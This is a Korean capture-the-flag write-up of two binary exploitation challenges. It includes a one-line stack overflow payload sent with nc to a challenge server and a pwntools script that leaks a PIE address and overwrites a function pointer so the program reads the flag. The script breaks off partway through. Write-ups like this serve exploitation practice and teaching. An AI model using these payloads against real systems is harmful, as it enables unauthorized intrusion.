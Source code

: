 

### where is she (150)

내가 출제했다가 망한 문제다.

의도는 fflush 함수가 사용되었기 때문에 .dynstr의 fflu__'sh'__를 이용하는 것이었는데

단순하게 read로 bss에 /bin/sh 쓰고 pppr로 system@plt call하면 되는 것을 생각 못했다. ㅋㅋㅋㅋ



payload

```(python -c 'print "A"*304 + "\xb0\x83\x04\x08" + "AAAA" + "\x96\x82\x04\x08"'; cat) | nc c2w2m2.com 4777```



__플래그 : flag{did_y0u_us3d_dyn57r_0r_ppppr?}__



### Easy~~ (200)

1. Open
2. Read
3. Write
4. Exit

의 메뉴로 이루어져있는데 현재 디렉터리의 파일을 Open으로 읽고 Write로 출력할 수 있다.

Open에서 flag, proc, etc, self을 strstr로 필터링 해놨는데 여기에는 의미가 없고

main 처음에 qword_2021c0에 puts("ByeBye~~")를 넣어놓고 메뉴 선택 잘못했을 때 이거 호출하는데

Read에서 BOF가 터져서 이를 system("/bin/cat flag")하는 sub_CDC() 함수로 덮을 수 있다.

처음에 PIE 걸려서 어떻게 하지 싶었는데 처음에 바로 Write시 특정 코드 주소가 leak된다.

P~~~ 뭐라고 읽을 수 없는 문자 출력되길래 뭔가 싶었는데, libc 같은거 하위 1바이트 고정인 거 같이

P 고정되길래 주소인거 알아채고 오프셋 계산해서 플래그 읽었다.

솔직히 아직 출제 의도는 모르겠다.



exp.py

```python
from pwn import *

#p = process('./easy')
p = remote('c2w2m2.com', 4567)
p.recvuntil(':> ')
p.sendline('3')
p.recv(256)

leak = u64(p.recv(6).ljust(8,'\x00'))
flag = leak - 0x130 + 0x2C7
log.info('/bin/cat flag : ' + str(hex(flag)))

p.recvuntil(':> ')

p.sendline('2')

payload =  p64(flag) * 120
```